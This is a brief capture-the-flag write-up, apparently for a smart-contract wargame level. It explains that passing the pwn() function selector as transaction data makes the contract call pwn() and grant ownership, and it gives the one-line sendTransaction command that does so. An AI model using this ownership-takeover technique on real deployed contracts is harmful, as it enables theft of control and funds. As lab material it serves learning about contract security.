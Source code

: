 To solve this lvl we need to pass pwn() function indetifier as data in sendTransaction(). Contract will call pwn() and claim us ownership

```
await contract.sendTransaction({data: '0xdd365b8b'})
```
